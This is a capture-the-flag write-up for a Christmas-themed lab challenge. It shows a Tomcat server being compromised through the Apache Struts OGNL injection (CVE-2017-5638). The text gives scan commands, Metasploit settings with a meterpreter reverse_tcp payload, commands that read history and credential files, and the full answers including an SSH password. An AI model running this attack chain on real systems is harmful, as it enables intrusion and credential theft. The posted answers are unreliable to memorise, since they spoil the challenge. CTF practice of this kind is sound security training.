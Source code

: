 ## Introduction

> Hi Lindsey here. I've been a great Elf all year, but there was one incident and now I think I'm on Santa's naughty list.  
> What? You didn't think us elves got presents too? Well we do and we get first pick of the pressies!  
> Can you help me hack into Santa's system that keeps track of the naughty and nice people to see if I am on it?

> Check out this [blog post](./Supporting_Doc.html) to help you on this task.


## Questions

> 1) Compromise the web server using Metasploit. What is flag1?

td:lr Answer: **THM{3ad96bb13ec963a5ca4cb99302b37e12}**

> 2) Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

td:lr Answer: **rudolphrednosedreindeer**

> 3) Who is on line 148 of the naughty list?

td:lr Answer: **Melisa Vanhoose**

> 4) Who is on line 52 of the nice list?

td:lr Answer: **Lindsey Gaffney**


===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we need to do a nmap scan for open ports and their server versions:

`nmap <ip> -T4 ` - will reveal open ports 22, 80, 111  
`nmap <ip> -T4 -p80 -A` - will reveal Apache Tomcat/Coyote JSP engine 1.1

![](./res/pic1.png)

Apache Tomcat/Coyote JSP enginer 1.1 points to Struts 2 framework, which has a RCE vulnerability for Apache Struts versions 2.1.2 - 2.3.3 and Struts 2.5 - 2.5.12.

To confirm our finding, we can use nikto:

`nikto -h <ip>`

![](./res/pic2.png)

Proceed to find exploit for CVE-2017-5638:  
[Apache Struts Jakarta Multipart Parser OGNL Injection](https://www.rapid7.com/db/modules/exploit/multi/http/struts2_content_type_ognl)

We can use the above exploit from metasploit:  
`use exploit/multi/http/struts2_content_type_ognl`  
`set RHOSTS <IP>`  
`set RPORT 80`  
`set TARGETURI /showcase.action`  
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`  
`set LHOST <own machine IP>`  
`exploit`

we will get meterpreter session open:  
`cat /root/.bash_history` --will allow us to find where the flag is  
`cd /usr/local/tomcat/webapps/ROOT`  
`cat ThisIsFlag1.txt`  
Will get us the flag: **THM{3ad96bb13ec963a5ca4cb99302b37e12}**

From the `.bash_history` we can also find where the santa's SSH password is:
`cd /home/santa`  
`cat ssh-creds.txt`  
Will get us Santa's SSH password: **rudolphrednosedreindeer**

For #3, we need to SSH into the machine using Santa's credentials:  
`ssh santa@ip`  - password: rudolphrednosedreindeer
`cat naughty_list.txt -n | grep 148`  
Will get us the answer: **Melisa Vanhoose**

`cat nice_list.txt -n | grep 52`
Will get us the answer: **Lindsey Gaffney**


